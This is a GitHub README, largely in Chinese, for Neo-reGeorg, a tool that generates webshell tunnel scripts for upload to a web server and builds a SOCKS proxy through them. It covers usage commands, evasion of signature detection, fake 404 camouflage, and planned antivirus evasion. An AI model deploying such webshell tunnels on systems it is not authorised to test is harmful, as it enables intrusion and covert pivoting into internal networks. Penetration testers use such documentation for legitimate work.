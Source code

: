 reGeorgX
=========

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 解决 reGeorg 现存在的问题，修复部分小BUG



## Features

* 传输内容经过变形base64加密，伪装成base64编码
* GET 请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 兼容python2 / python3



Version
----

1.0.0



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_server/tunnel.nosocket.php
       => neoreg_server/tunnel.js
       => neoreg_server/tunnel.php
       => neoreg_server/tunnel.ashx
       => neoreg_server/tunnel.aspx
       => neoreg_server/tunnel.tomcat.5.jsp
       => neoreg_server/tunnel.jsp

```

* **Step 2.**
使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:1080], tunnel at [http://k/tunnel.php]
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如NMap不支持socks代理，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. 支持生成服务端，默认 GET 请求响应指定的页面内容 (如伪装的404页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ pytohn neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端WEB，需要设置代理才能访问
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需Authorization认证，或者定制的Header或Cookie
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value"
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      --read-buff Bytes     Remote read buffer.(default: 513)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
                     [-x LINE] [--read-buff Bytes] [--read-interval MS]
                     [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom cookies to server
      -x LINE, --proxy LINE
                            proto://host[:port] Use proxy on given port
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 1024)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



## TODO

 * 解决 tennel.js 无法持续 TCP 连接问题

 * HTTP body 隐写

 * 传输 Target 隐写

 * 混淆/免杀/压缩 server 端

 * Single session mode ([@imbeee](https://www.imbeee.com/2016/01/06/reGeorgSocksProxy-with-single-session-mode/))

   指定Cookie：
   
   ```python
       def cookiesFilter(self,cookie):
           newcookies = []
           if cookie:
               for x in cookie.split(','):
                   if ';' in x:
                       match = re.findall('((.+?)=(.+?));(\sdomain=(.+);)?',x.strip())
                       if match:
                           if match[0][4] == self.httpHost or match[0][4] == '':
                               self.cookieDic[match[0][1]] = match[0][2]
                   else:
                       self.cookieDic[x.split('=')[0]] = x.split('=')[1]
           for k in self.cookieDic.keys():
               newcookies.append(k + '=' + self.cookieDic[k])
           return '; '.join(newcookies)
   
       def reqRand(self):
           return ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba',10))
   ```

- Custom headers.

- Optional buffer size, the transfer speed many times faster.

- Optional url check.

- Proxy headers payloads can be selected between URL parameters and Request headers.

  [https://github.com/gorgiaxx/reGeorg](https://github.com/gorgiaxx/reGeorg)

## License

GPL 3.0
